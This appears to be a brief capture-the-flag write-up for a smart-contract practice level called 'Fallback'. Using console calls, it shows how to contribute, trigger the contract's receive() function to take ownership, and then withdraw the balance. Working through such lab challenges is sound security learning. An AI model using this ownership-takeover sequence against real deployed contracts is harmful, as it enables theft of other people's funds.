 # Fallback

1 Contribute to pass the requirement

```javascript
await contract.contribute({ value: 1 })
```

2 Send some ETH to the contract to trigger receive()

now, you should be the owner

```javascript
await contract.owner()
```

then call withdraw()

```javascript
await contract.withdraw()
```

Done :)
